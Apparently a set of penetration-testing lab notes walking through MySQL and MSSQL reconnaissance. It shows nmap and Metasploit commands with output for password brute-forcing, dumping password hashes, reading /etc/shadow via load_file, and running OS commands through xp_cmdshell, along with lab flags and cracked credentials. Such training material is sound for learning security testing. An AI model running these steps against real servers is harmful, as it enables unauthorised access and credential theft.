# MYSQL Enum

**`MYSQL`** - an open-source relational database management system, used to add, access and process data stored in a server database using the **`SQL`** (**S**tructured **Q**uery **L**anguage) syntax. It's also included in the `LAMP` technology stack (Linux, Apache, MySQL, PHP) to store and retrieve data in well-known applications, websites and services.

Default `MYSQL` port is **`3306`**.

```bash
sudo nmap -p3306 -sV -O <TARGET_IP>
```

## Lab 1

>  🔬 [MySQL Recon: Basics](https://attackdefense.pentesteracademy.com/challengedetails?cid=529)
>
>  - Target IP: `192.49.51.3`
>  - `MySQL` server reconnaisance.

```bash
ip -br -c a
	eth1@if176632   UP   192.49.51.2/24 
nmap 192.49.51.3
```

```bash
nmap -sV -p3306 192.49.51.3
	3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
```

> 📌 MySQL server version is `5.5.62`

### [mysql](https://dev.mysql.com/doc/refman/8.0/en/mysql.html)

> **`mysql`** - SQL shell with input line editing capabilities.

```bash
mysql -h 192.49.51.3 -u root
```

```bash
MySQL [(none)]> help
# Get a list of MySQL commands

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| books              |
| data               |
| mysql              |
| password           |
| performance_schema |
| secret             |
| store              |
| upload             |
| vendors            |
| videos             |
+--------------------+
11 rows in set (0.001 sec)
```

> 📌 There are `11 databases` on the server.

```bash
MySQL [(none)]> use books;
MySQL [books]> select count(*) from authors;
+----------+
| count(*) |
+----------+
|       10 |
+----------+
1 row in set (0.000 sec)
```

> 📌 There are `10 records` in table *`authors`* inside the books *database*.


### Metasploit Enum

- Use the [`mysql_schemadump`](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_schemadump/) metasploit module to dump the schema of all databases.

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_schemadump 
set RHOSTS 192.49.51.3
set USERNAME root
set PASSWORD ""
exploit
```

```bash
[+] 192.49.51.3:3306      - Schema stored in: /root/.msf4/loot/20230219145005_default_192.49.51.3_mysql_schema_310503.txt
[+] 192.49.51.3:3306      - MySQL Server Schema 
 Host: 192.49.51.3 
 Port: 3306 
 ====================
---
- DBName: books
  Tables:
  - TableName: authors
    Columns:
    - ColumnName: id
      ColumnType: int(11)
    - ColumnName: first_name
      ColumnType: varchar(50)
    - ColumnName: last_name
      ColumnType: varchar(50)
    - ColumnName: email
      ColumnType: varchar(100)
    - ColumnName: birthdate
      ColumnType: date
    - ColumnName: added
      ColumnType: timestamp
- DBName: data
  Tables: []
- DBName: password
  Tables: []
- DBName: secret
  Tables: []
- DBName: store
  Tables: []
- DBName: upload
  Tables: []
- DBName: vendors
  Tables: []
- DBName: videos
  Tables: []
```



- Use the [`mysql_writable_dirs`](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_writable_dirs/) metasploit module to enumerate writable directories.

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_writable_dirs
set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set RHOSTS 192.49.51.3
set VERBOSE false
set PASSWORD ""
exploit
```

```bash
!] 192.49.51.3:3306      - For every writable directory found, a file called UlxAUnoc with the text test will be written to the directory.
[*] 192.49.51.3:3306      - Login...
[*] 192.49.51.3:3306      - Checking /tmp...
[+] 192.49.51.3:3306      - /tmp is writeable
[*] 192.49.51.3:3306      - Checking /etc/passwd...
[!] 192.49.51.3:3306      - Can't create/write to file '/etc/passwd/UlxAUnoc' (Errcode: 20)
[*] 192.49.51.3:3306      - Checking /etc/shadow...
[!] 192.49.51.3:3306      - Can't create/write to file '/etc/shadow/UlxAUnoc' (Errcode: 20)
[*] 192.49.51.3:3306      - Checking /root...
[+] 192.49.51.3:3306      - /root is writeable
[*] 192.49.51.3:3306      - Checking /home...
[!] 192.49.51.3:3306      - Can't create/write to file '/home/UlxAUnoc' (Errcode: 13)
[*] 192.49.51.3:3306      - Checking /etc...
[!] 192.49.51.3:3306      - Can't create/write to file '/etc/UlxAUnoc' (Errcode: 13)
[*] 192.49.51.3:3306      - Checking /etc/hosts...
[!] 192.49.51.3:3306      - Can't create/write to file '/etc/hosts/UlxAUnoc' (Errcode: 20)
[*] 192.49.51.3:3306      - Checking /usr/share...
[!] 192.49.51.3:3306      - Can't create/write to file '/usr/share/UlxAUnoc' (Errcode: 13)
[*] 192.49.51.3:3306      - Checking /etc/config...
[!] 192.49.51.3:3306      - Can't create/write to file '/etc/config/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /data...
[!] 192.49.51.3:3306      - Can't create/write to file '/data/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /webdav...
[!] 192.49.51.3:3306      - Can't create/write to file '/webdav/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /doc...
[!] 192.49.51.3:3306      - Can't create/write to file '/doc/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /icons...
[!] 192.49.51.3:3306      - Can't create/write to file '/icons/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /manual...
[!] 192.49.51.3:3306      - Can't create/write to file '/manual/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /pro...
[!] 192.49.51.3:3306      - Can't create/write to file '/pro/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /secure...
[!] 192.49.51.3:3306      - Can't create/write to file '/secure/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /poc...
[!] 192.49.51.3:3306      - Can't create/write to file '/poc/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /pro...
[!] 192.49.51.3:3306      - Can't create/write to file '/pro/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /dir...
[!] 192.49.51.3:3306      - Can't create/write to file '/dir/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /Benefits...
[!] 192.49.51.3:3306      - Can't create/write to file '/Benefits/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /Data...
[!] 192.49.51.3:3306      - Can't create/write to file '/Data/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /Invitation...
[!] 192.49.51.3:3306      - Can't create/write to file '/Invitation/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /Office...
[!] 192.49.51.3:3306      - Can't create/write to file '/Office/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /Site...
[!] 192.49.51.3:3306      - Can't create/write to file '/Site/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /Admin...
[!] 192.49.51.3:3306      - Can't create/write to file '/Admin/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306      - Checking /etc...
[!] 192.49.51.3:3306      - Can't create/write to file '/etc/UlxAUnoc' (Errcode: 13)
```


> 📌 `2` directories are writable: `/tmp` and `/root`

- Use the [`mysql_file_enum`](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_file_enum/) metasploit module to enumerate readable files.

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_file_enum
set RHOSTS 192.49.51.3
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
set PASSWORD ""
exploit
```

```bash
[+] 192.49.51.3:3306      - /etc/passwd
[+] 192.49.51.3:3306      - /etc/shadow
[+] 192.49.51.3:3306      - /etc/group
[+] 192.49.51.3:3306      - /etc/mysql/my.cn
[+] 192.49.51.3:3306      - /etc/hosts
[+] 192.49.51.3:3306      - /etc/hosts.allow
[+] 192.49.51.3:3306      - /etc/hosts.deny
[+] 192.49.51.3:3306      - /etc/issue
[+] 192.49.51.3:3306      - /etc/fstab
[+] 192.49.51.3:3306      - /proc/version
```


> 📌 `10` sensitive file are readable: `/etc/passwd`, `/etc/shadow`, `/etc/group`, `/etc/mysql/my.cn`, `/etc/hosts`, `/etc/hosts.allow`, `/etc/hosts.deny`, `/etc/issue`, `/etc/fstab`, `/proc/version`

- Use the [`mysql_hashdump`](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_hashdump/) metasploit module to list database users and their password hashes.

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_hashdump 
set RHOSTS 192.49.51.3
set USERNAME root
set PASSWORD ""
exploit
```

```bash
[+] 192.49.51.3:3306      - Saving HashString as Loot: root:
[+] 192.49.51.3:3306      - Saving HashString as Loot: root:
[+] 192.49.51.3:3306      - Saving HashString as Loot: root:
[+] 192.49.51.3:3306      - Saving HashString as Loot: root:
[+] 192.49.51.3:3306      - Saving HashString as Loot: debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
[+] 192.49.51.3:3306      - Saving HashString as Loot: root:
[+] 192.49.51.3:3306      - Saving HashString as Loot: filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[+] 192.49.51.3:3306      - Saving HashString as Loot: ultra:*827EC562775DC9CE458689D36687DCED320F34B0
[+] 192.49.51.3:3306      - Saving HashString as Loot: guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
[+] 192.49.51.3:3306      - Saving HashString as Loot: sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
[+] 192.49.51.3:3306      - Saving HashString as Loot: udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
[+] 192.49.51.3:3306      - Saving HashString as Loot: sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
```


> 📌 `8` db users are present:
>
>  `debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D`
> `root:`
> `filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B`
> `ultra:*827EC562775DC9CE458689D36687DCED320F34B0`
> `guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646`
> `sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0`
> `udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9`
> `sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14`

```bash
mysql -h 192.49.51.3 -u root
```

```mysql
MySQL [(none)]> select load_file("/etc/shadow");
# /etc/shadow is readable
```

<details>
<summary>Reveal Flag - System password hash for user “root” is: 🚩</summary>


`S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/`



</details>

### Nmap Enum

- Use [nmap mysql-empty-password script](https://nmap.org/nsedoc/scripts/mysql-empty-password.html) to check MySQL with an empty password for **`root`** and ***anonymous*** users.

```bash
nmap --script=mysql-empty-password -p3306 192.49.51.3
```

```bash
3306/tcp open  mysql
| mysql-empty-password:
|_  root account has empty password
```


> 📌 *root* and *anonymous* users login is permitted without password.

- Use [nmap `mysql-info` script](https://nmap.org/nsedoc/scripts/mysql-info.html) to check MySQL server information.

```bash
nmap -sV -sC -p3306 192.49.51.3
# mysql-info already in the default scripts
nmap --script=mysql-info -p3306 192.49.51.3
```

```bash
3306/tcp open  mysql
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.62-0ubuntu0.14.04.1
|   Thread ID: 57
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, ConnectWithDatabase, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, SupportsCompression, IgnoreSigpipes, LongColumnFlag, FoundRows, InteractiveClient, ODBCClient, SupportsTransactions, Speaks41ProtocolNew, LongPassword, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: u+r!I,>5/-0I_%5y&M2P
|_  Auth Plugin Name: 96
```


> 📌 `InteractiveClient` is supported on the server.

- Use [nmap ``mysql-users`` script](https://nmap.org/nsedoc/scripts/mysql-users.html) to list all MySQL db users

```bash
nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p3306 192.49.51.3
```

```bash
3306/tcp open  mysql
| mysql-users: 
|   filetest
|   root
|   debian-sys-maint
|   guest
|   sigver
|   sysadmin
|   udadmin
|_  ultra
```


> 📌 DB users are: `filetest`, `root`, `debian-sys-maint`, `guest`, `sigver`, `sysadmin`, `udadmin`, `ultra`

- Use [nmap ``mysql-databases`` script](https://nmap.org/nsedoc/scripts/mysql-databases.html) to list all MySQL db users

```bash
nmap --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''" -p3306 192.49.51.3
```

```bash
3306/tcp open  mysql
| mysql-databases: 
|   information_schema
|   books
|   data
|   mysql
|   password
|   performance_schema
|   secret
|   store
|   upload
|   vendors
|_  videos
```



> 📌 MySQL databases are `information_schema`, `books`, `data`, `mysql`, `password`, `performance_schema`, `secret`, `store`, `upload`, `vendors`, `videos`

- Use [nmap ``mysql-variables`` script](https://nmap.org/nsedoc/scripts/mysql-variables.html) to show MySQL variables.

```bash
nmap --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" -p3306 192.49.51.3
```


> 📌 The data directory used by MySQL server is *datadir:* `var/lib/mysql/`

- Use [nmap ``mysql-audit`` script](https://nmap.org/nsedoc/scripts/mysql-audit.html) to audit MySQL server security configuration.

```bash
nmap --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename=''" -p3306 192.49.51.3
```

```bash
3306/tcp open  mysql
| mysql-audit: 
|   CIS MySQL Benchmarks v1.0.2
|       3.1: Skip symbolic links => FAIL
|       3.2: Logs not on system partition => PASS
|       3.2: Logs not on database partition => PASS
|       4.1: Supported version of MySQL => REVIEW
|         Version: 5.5.62-0ubuntu0.14.04.1
|       4.4: Remove test database => PASS
|       4.5: Change admin account name => PASS
|       4.7: Verify Secure Password Hashes => PASS
|       4.9: Wildcards in user hostname => PASS
|         The following users were found with wildcards in hostname
|           filetest
|           root
|       4.10: No blank passwords => PASS
|         The following users were found having blank/empty passwords
|           root
|       4.11: Anonymous account => PASS
|       5.1: Access to mysql database => REVIEW
|         Verify the following users that have access to the MySQL database
|           user  host
|       5.2: Do not grant FILE privileges to non Admin users => PASS
|         The following users were found having the FILE privilege
|           filetest
|       5.3: Do not grant PROCESS privileges to non Admin users => PASS
|       5.4: Do not grant SUPER privileges to non Admin users => PASS
|       5.5: Do not grant SHUTDOWN privileges to non Admin users => PASS
|       5.6: Do not grant CREATE USER privileges to non Admin users => PASS
|       5.7: Do not grant RELOAD privileges to non Admin users => PASS
|       5.8: Do not grant GRANT privileges to non Admin users => PASS
|       6.2: Disable Load data local => FAIL
|       6.3: Disable old password hashing => FAIL
|       6.4: Safe show database => FAIL
|       6.5: Secure auth => FAIL
|       6.6: Grant tables => FAIL
|       6.7: Skip merge => FAIL
|       6.8: Skip networking => FAIL
|       6.9: Safe user create => FAIL
|       6.10: Skip symbolic links => FAIL
|     
|     Additional information
|       The audit was performed using the db-account: root
|_      The following admin accounts were excluded from the audit: root,debian-sys-maint
```



> 📌 `No File privileges can be granted` to non admin users.

- Use [nmap ``mysql-dump-hashes`` script](https://nmap.org/nsedoc/scripts/mysql-dump-hashes.html) to dump the password hashes.

```bash
nmap --script=mysql-dump-hashes --script-args="username='root',password=''" -p3306 192.49.51.3
```

```bash
3306/tcp open  mysql
| mysql-dump-hashes: 
|   debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
|   filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
|   ultra:*827EC562775DC9CE458689D36687DCED320F34B0
|   guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
|   sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
|   udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
|_  sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
```


> 📌 Users hashes are:
>
> `debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D`
> `filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B`
> `ultra:*827EC562775DC9CE458689D36687DCED320F34B0`
> `guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646`
> `sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0`
> `udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9`
> `sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14`

- Use [nmap ``mysql-query`` script](https://nmap.org/nsedoc/scripts/mysql-query.html) to run a query against a MySQL db.

```bash
nmap --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''" -p3306 192.49.51.3
```

```bash
3306/tcp open  mysql
| mysql-query: 
|   count(*)
|   10
|   
|   Query: select count(*) from books.authors;
|_  User: root
```


------

## Lab 2

>  🔬 [MySQL Recon: Dictionary Attack](https://attackdefense.pentesteracademy.com/challengedetails?cid=532)
>
>  - Target IP: `10.4.16.17`
>  - `MySQL` server dictionary attack.

```bash
ip -br -c a
	eth1@if176858   UP   192.222.16.2/24 
nmap 192.222.16.3
```

```bash
nmap -sV -p3306 192.222.16.3
	3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
```

### Metasploit

- Use the [`mysql_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_login/) metasploit module to bruteforce user login.

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_login 
set RHOSTS 192.222.16.3
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set STOP_ON_SUCCESS true
exploit

[+] 192.222.16.3:3306     - 192.222.16.3:3306 - Success: 'root:catalina'
[*] 192.222.16.3:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Hydra

- Use `hydra` tool with the same metasploit `unix_passwords` list to bruteforce root login.

```bash
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.222.16.3 mysql
```

```bash
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1009 login tries (l:1/p:1009), ~253 tries per task
[DATA] attacking mysql://192.222.16.3:3306/
[3306][mysql] host: 192.222.16.3   login: root   password: catalina
1 of 1 target successfully completed, 1 valid password found
```

<details>
<summary>Reveal Flag - MySQL server "root" password is: 🚩</summary>


`catalina`



</details>

## Lab 3

>  🔬 [Recon: MSSQL: Nmap Scripts](https://attackdefense.pentesteracademy.com/challengedetails?cid=2313)
>
>  - Target IP: `10.4.21.27`
>  - `Windows MSSQL` server enumeration with `nmap`

```bash
nmap 10.4.21.27
    135/tcp  open  msrpc
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    1433/tcp open  ms-sql-s
    3389/tcp open  ms-wbt-server
```

```bash
nmap -sV -sC -p1433 10.4.21.27
```

```bash
PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: MSSQL-SERVER
|   NetBIOS_Domain_Name: MSSQL-SERVER
|   NetBIOS_Computer_Name: MSSQL-SERVER
|   DNS_Domain_Name: MSSQL-Server
|   DNS_Computer_Name: MSSQL-Server
|_  Product_Version: 10.0.14393
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-02-19T17:36:09
|_Not valid after:  2053-02-19T17:36:09
|_ssl-date: 2023-02-19T17:41:06+00:00; -1s from scanner time.

Host script results:
| ms-sql-info: 
|   10.4.21.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
```



- *Sending a MS-TDS NTLM authentication request with an invalid domain and null credentials will cause the remote service to respond with a NTLMSSP message disclosing information to include NetBIOS, DNS, and OS build version.*
- For above default scripts, `nmap --script` command option can also be used:

```bash
nmap --script ms-sql-info -p1433 10.4.21.27
```

```bash
nmap --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 -p1433 10.4.21.27
```

> 📌 Server is `Microsoft SQL Server 2019`

- Enumerate MSSQL users and password.

```bash
nmap --script ms-sql-brute --script-args= userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt -p1433 10.4.21.27
```

```bash
1433/tcp open  ms-sql-s
| ms-sql-brute: 
|   [10.4.21.27:1433]
|     Credentials found:
|       dbadmin:bubbles1 => Login Success
|       admin:anamaria => Login Success
|_      auditor:jasmine1 => Login Success
```



> 📌 Valid MSSQL users and passwords are:
>
> `dbadmin:bubbles1`
> `admin:anamaria`
> `auditor:jasmine1`

- Check empty password users.

```bash
nmap --script ms-sql-empty-password -p1433 10.4.21.27
```

> 📌 ***sa*** user is enabled with `empty password`.

- Extract *sysusers* from MSSQL and store the output in a file

```bash
nmap --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -p1433 10.4.21.27 -oN output.txt
```


- Dump MSSQL users hashes

```bash
nmap --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria -p1433 10.4.21.27
```


> 📌 ***MSSQL*** users hashes are:
>
> `sa:0x020011dbfaf35ba0d5e61a769e3604230fde23e5d3e01e7ff0ba3875cf75554803e2f1e1977b78de8f4489c95df9be979c02f1dec551300c109c408c427934815755b600c7e0`
> `##MS_PolicyEventProcessingLogin##:0x0200191cf079f310fb475527ac320aba7a4e8d5c3567bef2462b96ce8a8629b7f986ed344aa0963ac3a096da77056dad77a457644431282e2aa2c2243bc635abc6bb5f52552c`
> `##MS_PolicyTsqlExecutionLogin##:0x0200677385acfe08bb1119246cf20f9d17c3a0d86bbb1d48874725f2c2e0e021260b885d0ba067427e09afad9079e6759ad6497ee7f1ef3cd497d500585d7727eeba64426083`
> `admin:0x02003814edd67dcab815b733d877a0fe7ec3470185864bd673c7273ba76c31e000c15e9fae25a826f6ba03892e37d6a1acae17f171d21dad7b20d874ccc259bbf9fa2230b9c0`
> `Mssql:0x02001786154bb350ac708b5a4c3fc6b90dc68418a13ba5fcb76b155f8eee14d72988edb559d9a2d0d6fd5dd25b1fab8431c0ca424d747a5743624c30aa772b40c8f23c66e6a4`
> `Mssqla:0x0200987f06858112a7fa0c70fe3f53c64061b35ae864782fc9cfcda3954ed60ca7e47e8497a571d177edb596f125cb529d7b2753e4d8e913c2b127a12207e3bcb75f70e29cb5`
> `auditor:0x020061cbe8509dfea47fbc20be854c4ac517bf6aa67f9f7c12d7d1efb1f500be279643c6cd19d370f9eff4f2d9b981a16f6916bc4534e8ba42d718f8b908fbfffb40d5cc1a5e`
> `dbadmin:0x02000d6c6a0d55f536f9dbff2d8cc1e0965c550e1a1a1e7c6df8b7e6534ab817408f86dd9592b206862c4b7a3d1f6ca85f439360171d7c5143d6fba8606675dbaf5bea40d15b` 

- Execute a command using [`ms-sql-xp-cmdshell`](https://nmap.org/nsedoc/scripts/ms-sql-xp-cmdshell.html) nmap script.
  - [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) *spawns a Windows command shell and passes in a string for execution*

```bash
nmap --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig" -p1433 10.4.21.27
```



```bash
nmap --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" -p1433 10.4.21.27

# MSSQL service is configured with xp_cmdshell enabled (no by default)
```

<details>
<summary>Reveal Flag: 🚩</summary>


`1d1803570245aa620446518b2154f324`


</details>


## Lab 4

>  🔬 [Recon: MSSQL: Metasploit](https://attackdefense.pentesteracademy.com/challengedetails?cid=2314)
>
>  - Target IP: `10.4.23.176`
>  - `Windows MSSQL` server enumeration with `metasploit`

```bash
nmap 10.4.23.176
    53/tcp   open  domain
    88/tcp   open  kerberos-sec
    135/tcp  open  msrpc
    139/tcp  open  netbios-ssn
    389/tcp  open  ldap
    445/tcp  open  microsoft-ds
    464/tcp  open  kpasswd5
    593/tcp  open  http-rpc-epmap
    636/tcp  open  ldapssl
    1433/tcp open  ms-sql-s
    3268/tcp open  globalcatLDAP
    3269/tcp open  globalcatLDAPssl
    3389/tcp open  ms-wbt-server
```

```bash
nmap --script ms-sql-info -p1433 10.4.23.176

Host script results:
| ms-sql-info: 
|   10.4.23.176:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
```

> 📌 Server is `Microsoft SQL Server 2019`

- User Metasploit to enumerate MSSQL configuration, logins, users and execute a command on the target machine.

```bash
msfconsole -q
```

```bash
use auxiliary/scanner/mssql/mssql_login
set RHOSTS 10.4.23.176
set USER_FILE /root/Desktop/wordlist/common_users.txt
set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt
set VERBOSE false
exploit

[*] 10.4.23.176:1433      - 10.4.23.176:1433 - MSSQL - Starting authentication scanner.
[+] 10.4.23.176:1433      - 10.4.23.176:1433 - Login Successful: WORKSTATION\sa:
[+] 10.4.23.176:1433      - 10.4.23.176:1433 - Login Successful: WORKSTATION\dbadmin:anamaria
[+] 10.4.23.176:1433      - 10.4.23.176:1433 - Login Successful: WORKSTATION\auditor:nikita
```



> 📌 **`sa`** user has `empty password`.


<details>
<summary>Reveal Flag - other users and passwords are: 🚩</summary>


`dbadmin:anamaria`

`auditor:nikita`

</details>


```bash
use auxiliary/admin/mssql/mssql_enum
set RHOSTS 10.4.23.176
exploit
```






```bash
use auxiliary/admin/mssql/mssql_enum_sql_logins
set RHOSTS 10.4.23.176
exploit

[*] 10.4.23.176:1433 - Attempting to connect to the database server at 10.4.23.176:1433 as sa...
[+] 10.4.23.176:1433 - Connected.
[*] 10.4.23.176:1433 - Checking if sa has the sysadmin role...
[+] 10.4.23.176:1433 - sa is a sysadmin.
[*] 10.4.23.176:1433 - Setup to fuzz 300 SQL Server logins.
[*] 10.4.23.176:1433 - Enumerating logins...
[+] 10.4.23.176:1433 - 38 initial SQL Server logins were found.
[*] 10.4.23.176:1433 - Verifying the SQL Server logins...
[+] 10.4.23.176:1433 - 16 SQL Server logins were verified:
[*] 10.4.23.176:1433 -  - ##MS_PolicyEventProcessingLogin##
[*] 10.4.23.176:1433 -  - ##MS_PolicyTsqlExecutionLogin##
[*] 10.4.23.176:1433 -  - ##MS_SQLAuthenticatorCertificate##
[*] 10.4.23.176:1433 -  - ##MS_SQLReplicationSigningCertificate##
[*] 10.4.23.176:1433 -  - ##MS_SQLResourceSigningCertificate##
[*] 10.4.23.176:1433 -  - BUILTIN\Users
[*] 10.4.23.176:1433 -  - EC2AMAZ-5861GL6\Administrator
[*] 10.4.23.176:1433 -  - NT AUTHORITY\SYSTEM
[*] 10.4.23.176:1433 -  - NT SERVICE\SQLTELEMETRY$SQLEXPRESS
[*] 10.4.23.176:1433 -  - NT SERVICE\SQLWriter
[*] 10.4.23.176:1433 -  - NT SERVICE\Winmgmt
[*] 10.4.23.176:1433 -  - NT Service\MSSQL$SQLEXPRESS
[*] 10.4.23.176:1433 -  - admin
[*] 10.4.23.176:1433 -  - auditor
[*] 10.4.23.176:1433 -  - dbadmin
[*] 10.4.23.176:1433 -  - sa
[*] Auxiliary module execution completed
```


```bash
use auxiliary/admin/mssql/mssql_exec
set RHOSTS 10.4.23.176
set CMD whoami
exploit

[*] Running module against 10.4.23.176
[*] 10.4.23.176:1433 - SQL Query: EXEC master..xp_cmdshell 'whoami'
 output
 ------
 nt service\mssql$sqlexpress
[*] Auxiliary module execution completed
```



```bash
use auxiliary/admin/mssql/mssql_enum_domain_accounts
set RHOSTS 10.4.23.176
exploit
```



------

